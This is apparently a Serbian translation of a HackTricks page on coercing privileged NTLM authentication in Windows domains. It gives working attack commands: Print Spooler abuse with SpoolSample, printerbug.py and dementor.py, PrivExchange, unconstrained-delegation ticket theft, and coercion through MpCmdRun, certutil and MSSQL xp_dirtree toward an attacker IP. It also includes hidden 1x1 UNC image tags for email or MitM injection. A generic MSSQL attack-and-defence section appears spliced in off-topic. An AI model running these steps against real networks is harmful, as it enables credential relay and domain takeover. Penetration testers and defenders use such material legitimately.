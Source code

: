 # Force NTLM Privileged Authentication

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **kompaniji za kibernetičku bezbednost**? Želite li da vidite svoju **kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) je **kolekcija** udaljenih autentifikacionih okidača kodiranih u C# koristeći MIDL kompajler kako bi se izbegle zavisnosti od trećih strana.

## Zloupotreba Spooler servisa

Ako je servis _**Print Spooler**_ **omogućen**, možete koristiti već poznate AD akreditive da **zahtevate** od print servera na kontroleru domena **ažuriranje** novih print poslova i samo mu reći da **pošalje obaveštenje na neki sistem**.\
Napomena: kada printer šalje obaveštenje na proizvoljni sistem, potrebno je da se **autentifikuje na** tom **sistemu**. Stoga, napadač može naterati servis _**Print Spooler**_ da se autentifikuje na proizvoljni sistem, a servis će **koristiti nalog računara** za ovu autentifikaciju.

### Pronalaženje Windows servera u domenu

Koristeći PowerShell, dobijte listu Windows mašina. Serveri obično imaju prioritet, pa se fokusirajmo na njih:

```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```

### Pronalaženje slušajućih Spooler servisa

Koristeći malo izmenjenu verziju @mysmartlogin-ovog (Vincent Le Toux-ovog) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket) alata, proverite da li Spooler servis sluša:

```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```

Možete koristiti rpcdump.py na Linuxu i potražiti protokol MS-RPRN.

```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```

### Zatražite od servisa da se autentifikuje na proizvoljnom hostu

Možete kompajlirati [**SpoolSample odavde**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**

```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```

ili koristite [**3xocyte-ov dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) ili [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) ako koristite Linux

```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```

### Kombinovanje sa neograničenim delegiranjem

Ako napadač već ima pristup kompjuteru sa [neograničenim delegiranjem](unconstrained-delegation.md), napadač može **naterati štampač da se autentifikuje na tom računaru**. Zbog neograničenog delegiranja, **TGT** računa **računara štampača** će biti **sačuvan u memoriji** računara sa neograničenim delegiranjem. Pošto je napadač već kompromitovao ovaj host, on će biti u mogućnosti da **preuzme ovu kartu** i zloupotrebi je ([Pass the Ticket](pass-the-ticket.md)).

## RCP prinudna autentifikacija

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

Napad `PrivExchange` je rezultat greške koja je pronađena u funkcionalnosti **Exchange Server `PushSubscription`**. Ova funkcionalnost omogućava Exchange serveru da bude prisiljen od strane bilo kog korisnika domena sa poštanskim sandučetom da se autentifikuje na bilo kojem klijentu obezbeđenom hostu preko HTTP-a.

Podrazumevano, **Exchange servis radi kao SYSTEM** i ima prekomerne privilegije (konkretno, ima **WriteDacl privilegije na domenu pre 2019 Cumulative Update**). Ova greška može biti iskorišćena da omogući **preusmeravanje informacija na LDAP i naknadno izvlačenje NTDS baze podataka domena**. U slučajevima kada preusmeravanje na LDAP nije moguće, ova greška se i dalje može koristiti za preusmeravanje i autentifikaciju na drugim hostovima unutar domena. Uspesno iskorišćavanje ovog napada odmah daje pristup Administratoru domena sa bilo kojim autentifikovanim korisničkim nalogom domena.

## Unutar Windows-a

Ako već imate pristup Windows mašini, možete naterati Windows da se poveže sa serverom koristeći privilegovane naloge sa:

### Defender MpCmdRun

```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```

### MSSQL

MSSQL (Microsoft SQL Server) je relaciona baza podataka koju razvija Microsoft. Koristi se za skladištenje i upravljanje podacima u organizacijama. MSSQL je popularan izbor za mnoge aplikacije i sistemski administratori često moraju da se bave ovom bazom podataka.

#### Napadi na MSSQL

Napadi na MSSQL mogu biti veoma opasni i mogu dovesti do kompromitovanja sistema ili krađe podataka. Evo nekoliko uobičajenih napada na MSSQL:

1. **Brute force napad**: Napadač pokušava da pogodi lozinku za pristup MSSQL serveru. Ovo se može postići korišćenjem različitih kombinacija lozinki sve dok se ne pronađe ispravna.
2. **SQL Injection**: Napadač ubacuje zlonamerni SQL kod u unos koji se prosleđuje MSSQL serveru. Ovo može dovesti do izvršavanja neovlašćenih SQL upita i kompromitovanja podataka.
3. **Denial of Service (DoS)**: Napadač preplavljuje MSSQL server sa velikim brojem zahteva kako bi ga onesposobio i sprečio pristup legitimnim korisnicima.
4. **Privilege Escalation**: Napadač pokušava da dobije više privilegija na MSSQL serveru kako bi imao veći pristup podacima i funkcionalnostima.

#### Zaštita od napada na MSSQL

Da biste zaštitili MSSQL server od napada, preporučuje se preduzimanje sledećih mera:

1. **Koristite jake lozinke**: Postavite složene lozinke koje kombinuju velika i mala slova, brojeve i posebne znakove. Takođe, redovno menjajte lozinke.
2. **Ažurirajte MSSQL server**: Redovno ažurirajte MSSQL server kako biste ispravili poznate sigurnosne propuste.
3. **Koristite firewall**: Konfigurišite firewall kako biste ograničili pristup MSSQL serveru samo sa određenih IP adresa.
4. **Koristite enkripciju**: Omogućite enkripciju komunikacije između klijenta i MSSQL servera kako biste zaštitili podatke od neovlašćenog pristupa.
5. **Ograničite privilegije**: Dodelite samo neophodne privilegije korisnicima na MSSQL serveru kako biste smanjili rizik od zloupotrebe.
6. **Pratite logove**: Redovno pratite logove MSSQL servera kako biste otkrili sumnjive aktivnosti i odmah reagovali.

Implementiranjem ovih mera zaštite, možete smanjiti rizik od napada na MSSQL server i zaštititi vaše podatke.

```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```

Ili koristite ovu drugu tehniku: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

Moguće je koristiti certutil.exe lolbin (Microsoft-potpisan binarni fajl) za prisiljavanje NTLM autentifikacije:

```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```

## HTML ubacivanje

### Putem emaila

Ako znate **email adresu** korisnika koji se prijavljuje na mašinu koju želite kompromitovati, jednostavno mu možete poslati **email sa slikom veličine 1x1** kao što je:

```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```

i kada je otvori, pokušaće da se autentifikuje.

### MitM

Ako možete izvesti MitM napad na računar i ubaciti HTML kod na stranicu koju će korisnik videti, možete pokušati da ubacite sliku kao što je sledeća na stranici:

```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```

## Pucanje NTLMv1

Ako možete uhvatiti izazove NTLMv1, pročitajte ovde kako da ih puknete.\
_Zapamtite da biste pukli NTLMv1, morate postaviti Responder izazov na "1122334455667788"_

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **kompaniji za kibernetičku bezbednost**? Želite li da vidite **vašu kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
